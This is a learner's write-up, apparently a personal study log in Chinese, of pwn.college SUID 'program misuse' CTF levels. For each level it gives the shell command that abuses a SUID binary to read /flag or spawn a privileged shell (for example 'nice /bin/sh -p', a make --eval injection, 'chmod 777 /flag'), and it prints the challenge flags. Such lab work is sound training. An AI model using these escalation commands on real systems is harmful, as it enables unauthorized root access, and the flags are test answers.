

knowledge
基本知识
linux、命令行、进程、文件系统、目录、软连接和硬链接、路径（绝对、相对）、管道、重定向
ref
关于软连接，这里有几个不错的参考
然后是权限、提权的内容
这里需要明白权限、用户、用户组这些概念，以及非常非常重要的uid gid等内容
SUID: execute with the eUID of the file owner rather than the parent process.
SGID: execute with the eGID of the file owner rather than the parent process.
Sticky: used for shared directories to limit file removal to file owners.
Three different type of user and group IDs:
Effective (eUID, eGID): the UID/GID used for most access checks.
Real (UID, GID): the "real" UID (or GID) of the process owner, used for things such as signal checks.
Saved: a UID/GID that your process could switch its eUID/eGID to. Used for temporarily dropping privileges.
ref
challenges
useful shell
#!/bin/bash
# 进入/challenge目录
cd /challenge
# 获取该目录下唯一的文件名
filename=$(ls)
# 执行该文件
./$filename
then
sh filename.sh
level1 Lets you directly read the flag!
hacker@program-misuse-level-1:/challenge$ ./babysuid_level1
Welcome to ./babysuid_level1!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/cat.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level1) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cat!
hacker@program-misuse-level-1:/challenge$
已经给我uid了，然后我直接读取即可
hacker@program-misuse-level-1:/$ ls
bin boot challenge dev etc flag home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
hacker@program-misuse-level-1:/$ cat flag
pwn.college{gtmGRqQdewLiKKwB2Wi1NeBxX3w.01M0EDL2QjMyMzW}
hacker@program-misuse-level-1:/$
level2 Lets you directly read the flag!
hacker@program-misuse-level-2:/challenge$ ./babysuid_level2
Welcome to ./babysuid_level2!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/more.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level2) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/more!
hacker@program-misuse-level-2:/challenge$
这个是用 more 读取
hacker@program-misuse-level-2:/challenge$ more /flag
pwn.college{g0orxg7_IfgidrE5G2scOM8wdRx.0FN0EDL2QjMyMzW}
hacker@program-misuse-level-2:/challenge$
level3 Lets you directly read the flag!
hacker@program-misuse-level-3:/challenge$ ./babysuid_level3
Welcome to ./babysuid_level3!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/less.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level3) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/less!
hacker@program-misuse-level-3:/challenge$
这次是用less
hacker@program-misuse-level-3:/challenge$ less /flag
pwn.college{onJWxeGXCk8o-LqXlLemr-Xzk2W.0VN0EDL2QjMyMzW}
/flag (END)
less比more好用，记得使用q退出
level4 Lets you directly read the flag!
hacker@program-misuse-level-4:/challenge$ ./babysuid_level4
Welcome to ./babysuid_level4!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/tail.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level4) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tail!
hacker@program-misuse-level-4:/challenge$
用tail
hacker@program-misuse-level-4:/challenge$ tail /flag
pwn.college{8A8n6zzy-sUTn179ZADopx1lzFV.0lN0EDL2QjMyMzW}
hacker@program-misuse-level-4:/challenge$
我现在猜下一个用head
level5 Lets you directly read the flag!
hacker@program-misuse-level-5:~$ sh file.sh
Welcome to ./babysuid_level5!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/head.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level5) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/head!
hacker@program-misuse-level-5:~$
果然用head
hacker@program-misuse-level-5:~$ head /flag
pwn.college{wVl3wFV0tMkY6rAFaMWKvEoOt2R.01N0EDL2QjMyMzW}
hacker@program-misuse-level-5:~$
level6 Lets you directly read the flag!
hacker@program-misuse-level-6:~$ sh file.sh
Welcome to ./babysuid_level6!
This challenge is part of a series of programs that
exposes you to very simple programs that let you directly read the flag.
I just set the SUID bit on /usr/bin/sort.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level6) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/sort!
hacker@program-misuse-level-6:~$ sort /flag
pwn.college{wRB7HgX_kvB4Uro33D7t1UKWZcE.0FO0EDL2QjMyMzW}
hacker@program-misuse-level-6:~$
这次居然是用sort
这里做一个小总结，以上这几个工具都非常常用，而且经常是组合使用的，建议使用man阅读手册，然后多尝试搭配使用。
level7 Shows you that an over-privileged editor is a very powerful tool!
hacker@program-misuse-level-7:~$ sh file.sh
Welcome to ./babysuid_level7!
This challenge is part of a series of programs that
shows you that an over-privileged editor is a very powerful tool, indeed.
I just set the SUID bit on /usr/bin/vim.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level7) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/vim!
hacker@program-misuse-level-7:~$ vim /flag
从标题能看出来是用某种编辑工具，这次是vim
pwn.college{YA-02bwpz2aH0bVuFckXnVUE_a8.0VO0EDL2QjMyMzW}
我猜后边儿得有nano emacs等等
level8 Shows you that an over-privileged editor is a very powerful tool!
hacker@program-misuse-level-8:~$ sh file.sh
Welcome to ./babysuid_level8!
This challenge is part of a series of programs that
shows you that an over-privileged editor is a very powerful tool, indeed.
I just set the SUID bit on /usr/bin/emacs.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level8) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/emacs!
果然不出我所料hhh
pwn.college{sCKRHf2_yRVb3Q_MEPjyLzcoqdN.0FM1EDL2QjMyMzW}
emacs也是一个强大的工具，可以学一学。
这里退出命令是
level9 Shows you that an over-privileged editor is a very powerful tool!
hacker@program-misuse-level-9:~$ sh file.sh
Welcome to ./babysuid_level9!
This challenge is part of a series of programs that
shows you that an over-privileged editor is a very powerful tool, indeed.
I just set the SUID bit on /usr/bin/nano.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level9) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/nano!
hacker@program-misuse-level-9:~$ nano /flag
我果然料事如神
pwn.college{w4DHxmYT2HQw-wrXkHpQXqNmIWW.0VM1EDL2QjMyMzW}
退出命令是
level10 Requires you to understand their output to derive the flag from it!
 一句题外话，不同挑战之间无缝切换好快啊，很适合Linux直接用terminal链接！
hacker@program-misuse-level-10:~$ sh file.sh
Welcome to ./babysuid_level10!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/rev.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level10) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/rev!
rev是反序输出的工具
但是难不住我
hacker@program-misuse-level-10:~$ rev /flag
}WzMyMjQ2LDE1Ml0.iqRmReNkY5WaIyBZQULv-MYk7kI{egelloc.nwp
hacker@program-misuse-level-10:~$ rev /flag | rev
pwn.college{Ik7kYM-vLUQZByIaW5YkNeRmRqi.0lM1EDL2QjMyMzW}
hacker@program-misuse-level-10:~$
level11 Requires you to understand their output to derive the flag from it!
hacker@program-misuse-level-11:~$ sh file.sh
Welcome to ./babysuid_level11!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/od.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level11) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/od!
od通常用于以八进制或十六进制格式显示文件的内容。
hacker@program-misuse-level-11:~$ od -A x -t x1z -v /flag
000000 70 77 6e 2e 63 6f 6c 6c 65 67 65 7b 73 4b 47 35 >pwn.college{sKG5<
000010 6d 6b 70 75 44 35 38 63 71 76 44 65 33 32 39 4e >mkpuD58cqvDe329N<
000020 57 6c 4f 36 31 41 39 2e 30 31 4d 31 45 44 4c 32 >WlO61A9.01M1EDL2<
000030 51 6a 4d 79 4d 7a 57 7d 0a >QjMyMzW}.<
000039
hacker@program-misuse-level-11:~$
看了文档就会了，这个命令直接写在文档里。
pwn.college{sKG5mkpuD58cqvDe329NWlO61A9.01M1EDL2QjMyMzW}
level12 Requires you to understand their output to derive the flag from it!
Welcome to ./babysuid_level12!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/hd.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level12) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/hd!
奇怪的hd工具，十六进制的。
hacker@program-misuse-level-12:~$ hd /flag
00000000 70 77 6e 2e 63 6f 6c 6c 65 67 65 7b 6f 47 7a 69 |pwn.college{oGzi|
00000010 37 55 30 32 58 54 6c 5f 64 73 6e 50 43 77 73 42 |7U02XTl_dsnPCwsB|
00000020 52 38 6d 59 54 77 6d 2e 30 46 4e 31 45 44 4c 32 |R8mYTwm.0FN1EDL2|
00000030 51 6a 4d 79 4d 7a 57 7d 0a |QjMyMzW}.|
00000039
hacker@program-misuse-level-12:~$ man hd
这里已经可以直接复制了，但是希望有更简便的形势，去看了文档，但是没太研究明白，瞎整了一个输出
hacker@program-misuse-level-12:~$ hd -f /flag
hd: "pwn.college{oGzi7U02XTl_dsnPCwsBR8mYTwm.0FN1EDL2QjMyMzW}": bad format
hacker@program-misuse-level-12:~$
level13 Requires you to understand their output to derive the flag from it!
Welcome to ./babysuid_level13!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/xxd.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level13) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/xxd!
xxd，是个二进制的工具。这个我会
hacker@program-misuse-level-13:~$ xxd /flag
00000000: 7077 6e2e 636f 6c6c 6567 657b 4d56 2d59 pwn.college{MV-Y
00000010: 6e5f 3465 4777 6c63 6f49 5438 4a63 574a n_4eGwlcoIT8JcWJ
00000020: 6934 7764 2d53 692e 3056 4e31 4544 4c32 i4wd-Si.0VN1EDL2
00000030: 516a 4d79 4d7a 577d 0a QjMyMzW}.
然后手动复制…
pwn.college{MV-Yn_4eGwlcoIT8JcWJi4wd-Si.0VN1EDL2QjMyMzW}
level14 Requires you to understand their output to derive the flag from it!
hacker@program-misuse-level-14:~$ sh file.sh
Welcome to ./babysuid_level14!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/base32.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level14) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/base32!
base32都出来了,就一个参数 -d
hacker@program-misuse-level-14:~$ base32 /flag
OB3W4LTDN5WGYZLHMV5UCT3NM4ZWGTLYK5YV6SCVOR2XC5CSMF4WM6LML5UWE4ZOGBWE4MKFIRGD
EULKJV4U26SXPUFA====
hacker@program-misuse-level-14:~$ base32 /flag | base32 -d
pwn.college{AOmg3cMxWq_HUtuqtRayfyl_ibs.0lN1EDL2QjMyMzW}
hacker@program-misuse-level-14:~$
那我猜下一个是base64
level15 Requires you to understand their output to derive the flag from it!
hacker@program-misuse-level-15:~$ sh file.sh
Welcome to ./babysuid_level15!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/base64.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level15) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/base64!
hacker@program-misuse-level-15:~$
嘿嘿，果然
hacker@program-misuse-level-15:~$ base64 /flag | base64 -d
pwn.college{QvvMGkZ_gpVBCBw1u5dYReqKajl.01N1EDL2QjMyMzW}
hacker@program-misuse-level-15:~$
level16 Requires you to understand their output to derive the flag from it!
hacker@program-misuse-level-16:~$ sh file.sh
Welcome to ./babysuid_level16!
This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.
I just set the SUID bit on /usr/bin/split.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level16) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/split!
split是一个分块的工具，但是由于题中的flag很小，还达不到它默认的限度（默认参数需要看手册），因此在运行
split /flag
之后，就会在文件夹之下有个输出文件。
hacker@program-misuse-level-16:~$ cat xaa
pwn.college{oqsgCLV3hcD9AXs5bELwauYQHup.0FO1EDL2QjMyMzW}
小总结，除了最近基本的进制、ascii等，base32和base64最好可以了解一下这两种编码方式
level17 Forces you to understand different archive formats!
hacker@program-misuse-level-17:~$ sh file.sh
Welcome to ./babysuid_level17!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/gzip.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level17) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gzip!
牛马的gzip，压缩和解压缩，看来后几个都是这个意思
然后开始秒题
hacker@program-misuse-level-17:~$ gzip -f /flag -t
hacker@program-misuse-level-17:~$ ls /
bin challenge etc home lib32 libx32 mnt proc run srv tmp var
boot dev flag.gz lib lib64 media opt root sbin sys usr
hacker@program-misuse-level-17:~$ gzip -cd /flag.gz
pwn.college{QHVq0GV7-f7QFzzNe2jTzkeq6T8.0VO1EDL2QjMyMzW}
hacker@program-misuse-level-17:~$
level18 Forces you to understand different archive formats!
开始无聊起来了。。。
hacker@program-misuse-level-18:~$ sh file.sh
Welcome to ./babysuid_level18!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/bzip2.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level18) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bzip2!
然后和上面的命令完全一样，就是压缩的格式和算法不同了
hacker@program-misuse-level-18:~$ bzip2 -f /flag
hacker@program-misuse-level-18:~$ ls /
bin challenge etc home lib32 libx32 mnt proc run srv tmp var
boot dev flag.bz2 lib lib64 media opt root sbin sys usr
hacker@program-misuse-level-18:~$ bzip2 -cd /flag.bz2
pwn.college{wkf3JjpEoyTnVUz5mUbAtllNMRn.0FM2EDL2QjMyMzW}
hacker@program-misuse-level-18:~$
level19 Forces you to understand different archive formats!
Welcome to ./babysuid_level19!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/zip.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level19) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/zip!
这几个题可有点儿烦人了啊！
hacker@program-misuse-level-19:~$ cat /flag.zip
PK
V3199flagUT �dBdux
pwn.college{YFFLGakdSzjIgW7btl64EaiEyDf.0VM2EDL2QjMyMzW}
PK
V3199flagUT�dux
PKJwhacker@program-misuse-level-19:~$
正确的方式应该是先解压，但是貌似能直接看，我就没管
level20 Forces you to understand different archive formats!
hacker@program-misuse-level-20:~$ sh file.sh
Welcome to ./babysuid_level20!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/tar.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level20) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/tar!
tar比较常见。
hacker@program-misuse-level-20:~$ tar cf /flag.tar /flag
tar: Removing leading `/' from member names
hacker@program-misuse-level-20:~$ ls /
bin challenge etc flag.tar lib lib64 media opt root sbin sys usr
boot dev flag home lib32 libx32 mnt proc run srv tmp var
hacker@program-misuse-level-20:~$ cat /flag.tar
flag0000400000000000000000000000007114456374677010423 0ustar rootrootpwn.college{YNojFHYmMjDXxa2MP_mFcpOEIIo.0lM2EDL2QjMyMzW}
hacker@program-misuse-level-20:~$
好像都可以直接用cat看压缩包，那么就比较简单了
level21 Forces you to understand different archive formats!
hacker@program-misuse-level-21:~$ sh file.sh
Welcome to ./babysuid_level21!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/ar.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level21) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ar!
ar工具，集合很多文档存成一个文档的工具
hacker@program-misuse-level-21:~$ ar rs /flag.a /flag
ar: creating /flag.a
hacker@program-misuse-level-21:~$ cat /flag.a
!<arch>
flag/ 0 0 0 644 57 `
pwn.college{0vq28yii-jRYCSQP_DtM3bkf8ee.01M2EDL2QjMyMzW}
hacker@program-misuse-level-21:~$
level22 Forces you to understand different archive formats!
hacker@program-misuse-level-22:~$ sh file.sh
Welcome to ./babysuid_level22!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/cpio.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level22) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cpio!
cpio工具，用于文件备份的
hacker@program-misuse-level-22:~$ find /flag | cpio -ov > archive.cpio
/flag
1 block
hacker@program-misuse-level-22:~$ ls /
bin challenge etc home lib32 libx32 mnt proc run srv tmp var
boot dev flag lib lib64 media opt root sbin sys usr
hacker@program-misuse-level-22:~$ ls
Desktop Downloads Pictures Templates archive.cpio file.sh
Documents Music Public Videos core test.py
hacker@program-misuse-level-22:~$ cat archive.cpio
�wd�9/flagpwn.college{om324dLj5vHeY7kTe9p_qAFQ1Cy.0FN2EDL2QjMyMzW}
�
TRAILER!!!hacker@program-misuse-level-22:~$
level23 Forces you to understand different archive formats!
hacker@program-misuse-level-23:~$ sh file.sh
Welcome to ./babysuid_level23!
This challenge is part of a series of programs that
force you to understand different archive formats.
I just set the SUID bit on /usr/bin/genisoimage.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level23) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/genisoimage!
genisoimage工具，能看出来作用是建立ISO 9660映像文件
er@program-misuse-level-23:~$ genisoimage -sort /flag
genisoimage: Incorrect sort file format
pwn.college{YROFw7Q_KvLF86Vs3WeI_XDvziT.0VN2EDL2QjMyMzW}
hacker@program-misuse-level-23:~$
这块儿好像cat不太星了，输出会打乱shell
小总结：倒是知道了很多以前不知道的工具。
level24 Enables you to read flags by making them execute other commands!
sh hacker@program-misuse-level-24:~$ sh file.sh
Welcome to ./babysuid_level24!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/env.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level24) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/env!
开始有意思起来了。
hacker@program-misuse-level-24:~$ env cat /flag
pwn.college{8rPxiO1f2sBGHUvcT83glFWNSpM.0lN2EDL2QjMyMzW}
hacker@program-misuse-level-24:~$
env可以给其他的程序赋权？感觉是这个意思，当然出题人想要的意思应该是需要先设一个shell，然后执行。
level25 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-25:~$ sh file.sh
Welcome to ./babysuid_level25!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/find.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level25) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/find!
使用find
hacker@program-misuse-level-25:~$ find / -type f -name "flag" -exec cat {} \;
pwn.college{Uomlfru_u94ZuszsvlNzA0n6x39.01N2EDL2QjMyMzW}
hacker@program-misuse-level-25:~$
这里需要考虑的是find只是找到，如何读取？
- 使用
-exec
level26 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-26:~$ sh file.sh
Welcome to ./babysuid_level26!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/make.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level26) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/make!
有点儿意思啊，直接出现了GNU Make了
hacker@program-misuse-level-26:~$ COMMAND='cat /flag';make -s --eval=$'x:\n\t-'"$COMMAND"
pwn.college{oYDGLL2PogQjUYR2TV30VTUm-4z.0FO2EDL2QjMyMzW}
hacker@program-misuse-level-26:~$
这个搜了一下，然后不光查到了正确答案还发现自己做错了，出题人想要的是 sh -p 这样提权 >这个命令的作用是启动一个新的shell进程，并将该进程的环境变量设置为当前shell进程的环境变量。 > >具体来说，这个命令包含以下部分： > >env：这是一个用于执行命令时设置环境变量的工具。在这个命令中，它用于将当前shell进程的所有环境变量传递给新的shell进程。 > >sh：这是一个用于启动shell进程的命令。在这个命令中，它用于启动一个新的shell进程。 > >-p：这是一个选项，用于告诉新的shell进程将其环境变量设置为当前shell进程的环境变量。具体来说，它会将当前shell进程的环境变量从环境变量文件（如/etc/environment、/etc/profile、~/.bashrc等）中读取，并将其设置为新的shell进程的环境变量。 > >因此，这个命令的效果是启动一个新的shell进程，并将其环境变量设置为当前shell进程的环境变量。这可以用于测试shell脚本或命令对环境变量的影响，或者在两个不同的shell进程之间共享环境变量。
看起来就是赋权，然后会拿到一个新的shell提示符
level27 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-27:~$ sh file.sh
Welcome to ./babysuid_level27!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/nice.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level27) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/nice!
nice工具:用于以指定的进程调度优先级启动其他的程序。
hacker@program-misuse-level-27:~$ nice /bin/sh -p
# cat /flag
pwn.college{celMGA3nJomrVQwA5iPwIY2IORz.0VO2EDL2QjMyMzW}
#
这样才是题目想要的，我傻了
level28 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-28:~$ sh file.sh
Welcome to ./babysuid_level28!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/timeout.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level28) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/timeout!
timeout工具：用来指定时间后杀死进程的。
hacker@program-misuse-level-28:~$ timeout 1h /bin/sh -p
# cat /flag
pwn.college{sWxHBmerdB7TO79CXDlkRtygh4x.0FM3EDL2QjMyMzW}
#
这个需要注意指定一个时间
level29 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-29:~$ sh file.sh
Welcome to ./babysuid_level29!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/stdbuf.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level29) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/stdbuf!
stdbuf工具：修改标准流的缓冲模式和大小
hacker@program-misuse-level-29:~$ stdbuf --input=512K /bin/sh -p
# cat /flag
pwn.college{IHf3mOmt5d10g3StOZp5S0AMAfJ.0VM3EDL2QjMyMzW}
#
别用man，真的不好用
level30 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-30:~$ sh file.sh
Welcome to ./babysuid_level30!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/setarch.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level30) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/setarch!
setarch工具: 改变架构的工具
hacker@program-misuse-level-30:~$ setarch i386 /bin/sh -p
# cat /flag
pwn.college{08T2qH86iHnjvFJb-5bmU9C5kJt.0lM3EDL2QjMyMzW}
#
它这个说默认是/bin/sh，可以切i386，在man里写着呢
level31 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-31:~$ sh file.sh
Welcome to ./babysuid_level31!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/watch.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level31) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/watch!
watch工具：执行命令然后全屏输出
hacker@program-misuse-level-31:~$ watch -x cat /flag
### 使用后会输出到全屏
pwn.college{UMl5SVp_YjbBiTIgIIiAi7i_5fg.01M3EDL2QjMyMzW}
很神奇的工具，然而发现tldr不怎么全，只有常见命令，到CTF的环境之中就不太适用了
level32 Enables you to read flags by making them execute other commands!
hacker@program-misuse-level-32:~$ sh file.sh
Welcome to ./babysuid_level32!
This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.
I just set the SUID bit on /usr/bin/socat.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level32) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/socat!
socat：是个和socket有关的工具。
hacker@program-misuse-level-32:~$ socat -u "file:/flag" -
pwn.college{QKHthQcoA6ncJKsiqFJMZ6ITybE.0FN3EDL2QjMyMzW}
hacker@program-misuse-level-32:~$
level33 Requires some light programming to read the flag.!
hacker@program-misuse-level-33:~$ sh file.sh
Welcome to ./babysuid_level33!
This challenge is part of a series of programs that
will require some light programming to read the flag..
I just set the SUID bit on /usr/bin/whiptail.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level33) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/whiptail!
whiptail：展示shell的对话框的工具
hacker@program-misuse-level-33:~$ whiptail --textbox /flag 20 40
pwn.college{4r_plp-YJyPyhT4_GiJQz042S5b.0VN3EDL2QjMyMzW}
是一个打开对话框的工具，因此思路就是直接展示出来就行了。
level34 Requires some light programming to read the flag.!
hacker@program-misuse-level-34:~$ sh file.sh
Welcome to ./babysuid_level34!
This challenge is part of a series of programs that
will require some light programming to read the flag..
I just set the SUID bit on /usr/bin/awk.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level34) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/awk!
这次是一个我一直都不怎么会用的工具了。。。你妈的
hacker@program-misuse-level-34:~$ awk '{print $1}' /flag
pwn.college{ghdjRlnfhKYn-uhIb2N76siNtG_.0lN3EDL2QjMyMzW}
hacker@program-misuse-level-34:~$
awk是一个很有用的工具，有时间还是得学一学
level35 Requires some light programming to read the flag.!
hacker@program-misuse-level-35:~$ sh file.sh
Welcome to ./babysuid_level35!
This challenge is part of a series of programs that
will require some light programming to read the flag..
I just set the SUID bit on /usr/bin/sed.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level35) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/sed!
果然，在awk之后我就应该想到是sed
hacker@program-misuse-level-35:~$ sed p /flag
pwn.college{M3upZ8DYRun26uvObOYrzPSdSUO.01N3EDL2QjMyMzW}
pwn.college{M3upZ8DYRun26uvObOYrzPSdSUO.01N3EDL2QjMyMzW}
hacker@program-misuse-level-35:~$
也许我之前操作错了什么，这里不应该是两行flag吧？
level36 Requires some light programming to read the flag.!
hacker@program-misuse-level-36:~$ sh file.sh
Welcome to ./babysuid_level36!
This challenge is part of a series of programs that
will require some light programming to read the flag..
I just set the SUID bit on /usr/bin/ed.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level36) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ed!
ed工具：是个编辑器，是交互式的
hacker@program-misuse-level-36:~$ ed /flag
57
.p
pwn.college{QNXzpWhqr3e12Okfu2KRnY5jyxa.0FO3EDL2QjMyMzW}
显示全文
level37 Lets you get the flag by doing tricks with permissions!
hacker@program-misuse-level-37:~$ sh file.sh
Welcome to ./babysuid_level37!
This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.
I just set the SUID bit on /usr/bin/chown.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level37) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chown!
chown工具：改变文件的所有者和组的
hacker@program-misuse-level-37:~$ chown hacker /flag
hacker@program-misuse-level-37:~$ cat /flag
pwn.college{49NDHOhwhBEwWccuPUHSxUU0RIE.0VO3EDL2QjMyMzW}
hacker@program-misuse-level-37:~$
这就是简单的赋权了
level38 Lets you get the flag by doing tricks with permissions!
hacker@program-misuse-level-38:~$ sh file.sh
Welcome to ./babysuid_level38!
This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.
I just set the SUID bit on /usr/bin/chmod.
Try to use it to read the flag!
IMPORTANT: make sure to run me (./babysuid_level38) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chmod!
这个，没人不会吧
hacker@program-misuse-level-38:~$ chmod 777 /flag
hacker@program-misuse-level-38:~$ cat /flag
